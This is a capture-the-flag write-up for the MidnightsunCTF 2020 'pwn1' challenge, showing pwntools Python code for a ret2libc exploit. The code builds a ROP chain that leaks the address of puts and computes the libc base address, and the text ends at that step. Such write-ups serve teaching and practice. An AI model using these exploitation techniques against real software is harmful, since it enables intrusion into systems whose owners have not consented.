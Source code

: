 # MidnightsunCTF2020
* link: [https://ctf.midnightsunctf.se/](https://ctf.midnightsunctf.se/)
* country: Sweden
* team: TaQini@[Nepnep](https://ctftime.org/team/106104) 

## pwn1 (70pt)
### Description

> An homage to pwny.racing, we present... speedrun pwn challenges.
> These bite-sized challenges should serve as a nice warm-up for your pwning skills.


### Attachment

[pwn1](https://cdn.jsdelivr.net/gh/TaQini/ctf@master/MidnightsunCTF2020/pwn/pwn1/pwn1), [libc](https://cdn.jsdelivr.net/gh/TaQini/ctf@master/MidnightsunCTF2020/pwn/pwn1/libc.so)

### Analysis

just an general warming up task of ret2libc attack

### Solution

#### leak libc 

**ASLR** is enabled, so leak libc first:

```python
# elf, libc
main = 0x00400698

# rop1
offset = cyclic_find(0x61616173)
payload = cyclic(offset)
payload += p64(prdi) + p64(elf.got['puts']) + p64(elf.sym['puts']) + p64(main)

ru('buffer: ')
# debug()
sl(payload)
```

#### calculate baseaddr

we can calculate the base address of libc by `puts-libc.sym['puts']` after `puts` in libc was leaked

```python
puts = uu64(rc(6))
info_addr("puts",puts)
libcbase = puts-libc.sym['puts']
```
